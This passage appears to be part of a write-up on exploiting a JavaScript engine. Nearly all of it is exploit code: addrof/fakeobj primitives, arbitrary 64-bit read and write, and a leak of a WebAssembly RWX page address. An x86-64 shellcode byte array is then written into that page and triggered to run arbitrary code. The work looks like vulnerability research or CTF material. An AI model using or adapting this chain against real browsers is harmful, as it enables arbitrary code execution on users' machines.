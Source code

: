 ```js
// print(describe(boxed));
// print(describe(unboxed));


// set driver's cell header to double array
u32[0] = structureID;
u32[1] = 0x01082307-0x20000;
container.cellHeader = f64[0];

function NewAddrOf(obj) {
    boxed[0] = obj;
    return f2i(unboxed[0]);
}

function NewFakeObj(addr) {
    unboxed[0] = i2f(addr);
    return boxed[0];            
}

function Read64(addr) {
    driver[1] = i2f(addr+0x10);
    return NewAddrOf(victim.prop);
    // return f2i(victim.prop);
}

function Write64(addr, val) {
    driver[1] = i2f(addr+0x10);
    // victim.prop = this.fake_obj(val);
    victim.prop = i2f(val);
}
```

Finally, inject `shellcode` to `rwx` memory in `wasm` object with the four primitives, and then trigger `shellcode` to execute arbitrary code:

```js
// leak rwx addr
let wasmObjAddr = NewAddrOf(wasmFunc);
print("[+] wasm obj addr: " + hex(wasmObjAddr));
let codeAddr = Read64(wasmObjAddr + 0x38);
let rwxAddr = Read64(codeAddr);
print("[+] rwx addr: " + hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];
// write shellcode to rwx mem
ArbitraryWrite(rwxAddr, shellcode);

// trigger shellcode to execute
wasmFunc();
```
